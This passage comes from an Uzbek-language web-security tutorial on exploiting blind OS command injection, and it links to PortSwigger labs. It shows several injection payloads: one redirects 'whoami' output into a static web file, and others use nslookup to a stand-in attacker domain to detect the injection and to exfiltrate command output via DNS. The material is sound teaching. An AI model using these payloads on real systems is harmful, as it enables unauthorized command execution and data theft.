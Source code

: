 Siz ishlatgan komandaning natijasini web saytdagi biror bir faylga yozishingiz va u faylni brauzer orqali ochishingiz mumkin. Masalan agarda web sayt static fayllarni fayl tizimidagi  `/var/www/static` joylashuvdan ishlatsa, unda siz quyidagi komandani yuborishingiz mumkin:

```
& whoami > /var/www/static/whoami.txt &
```

`>` mana bu belgi whoami komandasini biz argument sifatida bergan faylga yozadi. Siz esa uni o'qish uchun browserga [https://vulnerable-website.com/whoami.txt](https://vulnerable-website.com/whoami.txt) deb kiritishingiz kerak bo'ladi va siz ishlatgan buyrug'ingizning natijasini ko'ra olasiz.

{% hint style="warning" %}
<mark style="color:yellow;">**Lab:**</mark> [Natijani yo'naltirish orqali Blind OS Command Injectiondan foydalanish ≫](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)
{% endhint %}

### <mark style="color:yellow;">Out-of-band (OAST) texnikasi orqali Blind OS Command Injectionni exploit qilish</mark> <a href="#blind-os-command-injection-ni-out-of-band-oast-usullari-orqali-exploit-qilish" id="blind-os-command-injection-ni-out-of-band-oast-usullari-orqali-exploit-qilish"></a>

Siz OAST texnikasidan foydalangan holda siz boshqarayotgan tizim bilan out-of-band o'zaro tarmoq ta'sirini ishga tushiradigan ineksiya buyrug'idan foydalanishingiz mumkin. Masalan:

```
& nslookup kgji2ohoyw.web-attacker.com &
```

Ushbu payload belgilangan domen uchun DNS lookup qidiruvi uchun nslookup buyrug'idan foydalanadi. Haker belgilangan qidiruv sodir bo'lishini kuzatishi va shu orqali buyruq muvaffaqiyatli kiritilganligini aniqlashi mumkin.

{% hint style="warning" %}
<mark style="color:yellow;">**Lab:**</mark> [Out-of-band o'zaro tasiri bilan Blind OS ineksiya ≫](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)
{% endhint %}

Out-of-band channel shuningdek, kiritilgan buyruqlardan natijani chiqarishning oson yo'lini ham beradi:

```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

Bu `whoami` buyrug'ing natijasini o'z ichiga olgan hackerning domeniga DNS lookup bo'lishiga olib keladi:

```
wwwuser.kgji2ohoyw.web-attacker.com
```

{% hint style="warning" %}
<mark style="color:yellow;">**Lab:**</mark> [Out-of-badn ma'lumot exfiltratsiyasi bilan OS Command injection ≫](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)
{% endhint %}
